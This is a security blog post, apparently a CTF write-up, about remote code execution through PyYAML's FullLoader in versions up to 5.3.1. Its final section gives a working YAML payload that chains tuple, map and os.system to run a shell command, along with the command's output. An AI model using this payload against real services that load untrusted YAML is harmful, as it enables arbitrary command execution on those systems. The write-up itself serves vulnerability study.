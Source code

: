 ```yaml
---
layout: post
title:  "Remote Code Execution on PyYAML Version<=5.3.1"
date:   2020-07-20 17:07:00
tags:   [RCE, Python]
---
```


### Description
This zero-day vulnerability was published in UIUCTF 2020 under the name Deserializeme(Couldn't solve though😢).
<br/>
<br/>


### Contents
When using yaml.load function, if Loader is not defined, it basically operates as `FullLoader`. `!!python/object/apply` tag can trigger function when it deserializing like pickle vulnerability. But this tag is only allowed when the Loader is `UnsafeLoader`. Also `CVE-2020-1747` was patched beloing the code on PyYAML 5.3.1. 
```python
# constructor.py
class FullConstructor(SafeConstructor):
    # 'extend' is blacklisted because it is used by
    # construct_python_object_apply to add `listitems` to a newly generate
    # python instance
    def get_state_keys_blacklist(self):
        return ['^extend$', '^__.*__$'] # Regexp is added, can't use extend keywords with listitems.

    def get_state_keys_blacklist_regexp(self):
        if not hasattr(self, 'state_keys_blacklist_regexp'):
            self.state_keys_blacklist_regexp = re.compile('(' + '|'.join(self.get_state_keys_blacklist()) + ')')
        return self.state_keys_blacklist_regexp
...
```
<br/>
<br/>


These are tags PyYAML supported.
```
### YAML tags and Python types
The following table describes how nodes with different tags are converted to Python objects.

YAML tag	Python type
Standard YAML tags	
!!null	None
!!bool	bool
!!int	int or long (int in Python 3)
!!float	float
!!binary	str (bytes in Python 3)
!!timestamp	datetime.datetime
!!omap, !!pairs	list of pairs
!!set	set
!!str	str or unicode (str in Python 3)
!!seq	list
!!map	dict
Python-specific tags	
!!python/none	None
!!python/bool	bool
!!python/bytes	(bytes in Python 3)
!!python/str	str (str in Python 3)
!!python/unicode	unicode (str in Python 3)
!!python/int	int
!!python/long	long (int in Python 3)
!!python/float	float
!!python/complex	complex
!!python/list	list
!!python/tuple	tuple
!!python/dict	dict
Complex Python tags	
!!python/name:module.name	module.name
!!python/module:package.module	package.module
!!python/object:module.cls	module.cls instance
!!python/object/new:module.cls	module.cls instance
!!python/object/apply:module.f	value of f(...)
```
<br/>
<br/>


`!!python/object/new` and `!!python/name` tags are allowed in `FullLoader`. Also `!!python/name` tag can load python modules and map object be triggered when converting `list` or `tuple` in python.
```python
>>> yaml.load('!!python/object/new:tuple [[1,2,3]]')
(1, 2, 3)

>>> yaml.load('!!python/name:os.system')
<built-in function system>

>>> list(map(os.system, ['id']))
uid=1000(03sunf) gid=1000(groot) groups=1000(groot),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
[0]
>>> tuple(map(os.system, ['id']))
uid=1000(03sunf) gid=1000(groot) groups=1000(groot),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
(0,)
```
<br/>
<br/>


So triggering functions is possible in `FullLoader`.
```python
!!python/object/new:tuple [ !!python/object/new:map [ !!python/name:os.system , [ "id" ] ] ]
uid=1000(03sunf) gid=1000(groot) groups=1000(groot),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```
